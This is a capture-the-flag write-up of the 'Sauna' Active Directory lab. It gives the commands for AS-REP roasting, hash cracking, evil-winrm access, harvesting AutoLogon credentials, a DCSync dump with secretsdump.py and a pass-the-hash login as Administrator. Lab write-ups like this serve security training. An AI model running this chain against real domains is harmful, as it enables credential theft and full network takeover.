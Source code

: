 # Sauna - Active Directory Lab

Date: 2024-11-09

---

## Scope

The target is an Active Directory environment with the hostname `sauna.htb` and IP `10.10.10.175`. I stored the target IP in a local file for reference:

```bash
echo 10.10.10.175 > target
```

Additionally, I added the following entry to the /etc/hosts file:

```bash
10.10.10.175 sauna.htb
```

---

## Enumeration

### 1. Full Port Scan

To discover all open ports on the target, I performed a full port scan:

```bash
nmap -p- -v -oN nmap/full_scan.sauna.txt 10.10.10.175
```

```
Open Ports Identified:

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49720/tcp open  unknown
```

### 2. Service Enumeration

I conducted a detailed scan of the identified ports to gather more information:

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698,49720 -A -T4 -v -oN nmap/tcp_ports_scan.sauna.txt -oX nmap/tcp_ports_scan.sauna.xml 10.10.10.175
```

Key Findings:

* OS: **Windows Server 2019**
* Domain: **EGOTISTICAL-BANK.LOCAL**
* Hostname: **SAUNA**

Notable Services:

* Kerberos (88/tcp)
* LDAP (389/tcp, 3268/tcp)
* HTTP (80/tcp) with IIS 10.0 hosting "Egotistical Bank"
* SMB (139/tcp, 445/tcp)
* WinRM (5985/tcp)

---

### HTTP Exploration

The HTTP service revealed a basic web page hosted on Microsoft IIS. I explored two pages:

* http://sauna.htb/single.html: Found usernames. Stored them in a file called users.
* http://sauna.htb/about.html: Identified team members and added them to the users file.

![image](https://github.com/user-attachments/assets/192dc48b-2e61-4809-bf0a-1d4cc842748b)

---

### LDAP Enumeration

1. General Queries

LDAP allowed **unauthenticated queries**. Running the following:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -s base -x "(objectClass=*)" "*"
```

Findings:

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
* `Server Name: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL`

2. Password Policy

Queried password policy with:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' "(objectClass=domain)" | grep Pwd
```

Result: Minimum password length is 7 characters.

---

### SMB Enumeration

SMB required authentication and could not be enumerated anonymously.

---

## Exploitation

### 1. User Enumeration and AS-REP Roasting

Using usernames from earlier, I created a custom username wordlist ([GitHub - CustListler](https://github.com/spread0942/CustListler). Then, I used `GetNPUsers.py` to identify accounts vulnerable to AS-REP Roasting:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175
```

Result: Found an **AS-REP hash** for user `fSmith`.

### 2. Cracking the Hash

Cracked the AS-REP hash using hashcat:

```bash
hashcat -m 18200 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

### 3. Access via WinRM

Using the cracked credentials, I accessed the machine with evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "fSmith" -p "****"
```

Outcome: Retrieved the user flag.

---

## Privilege Escalation

### 1. BloodHound Enumeration

I used bloodhound-python for privilege escalation analysis:

```bash
mkdir loots && cd loots
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u "fSmith" -p "****" -ns 10.10.10.175 -c all
```

Findings: No significant paths for privilege escalation.

### 2. AutoLogon Credentials

Ran `winPEAS` and found AutoLogon credentials:

```
DefaultDomainName: EGOTISTICALBANK
DefaultUserName: EGOTISTICALBANK\svc_loanmgr
DefaultPassword: **********************
```

### 3. DCSync Attack

I marked as owned `svc_loanmgr` user on BloodHound and identified the possibility of a **DCSync attack**. 

![image](https://github.com/user-attachments/assets/98f799be-9037-41df-9160-aed2d7587659)

Using `secretsdump.py`, I dumped NTDS hashes:

```bash
secretsdump.py EGOTISTICAL-BANK/svc_loanmgr:"**********************"@10.10.10.175
```

Extracted Hashes:

```
Administrator NTLM Hash: aad3b.......:82345..........bdf86c7f98e
```

Using crackmapexec I confirmed the hash:

![image](https://github.com/user-attachments/assets/882612c7-4890-43dc-85f3-07cbda3bbd35)


## 4. Final Access

Used the administrator hash to log in via evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "Administrator" -H "aad3b.......:82345..........bdf86c7f98e"
```

Outcome: Retrieved the root flag.

---

## Summary

1. Enumerated services and discovered users via HTTP and LDAP.
2. Exploited Kerberos AS-REP Roasting to gain initial access.
3. Used winPEAS to find AutoLogon credentials for privilege escalation.
4. Conducted a DCSync attack to dump NTDS hashes.
5. Logged in as the Administrator and retrieved both user and root flags.

---



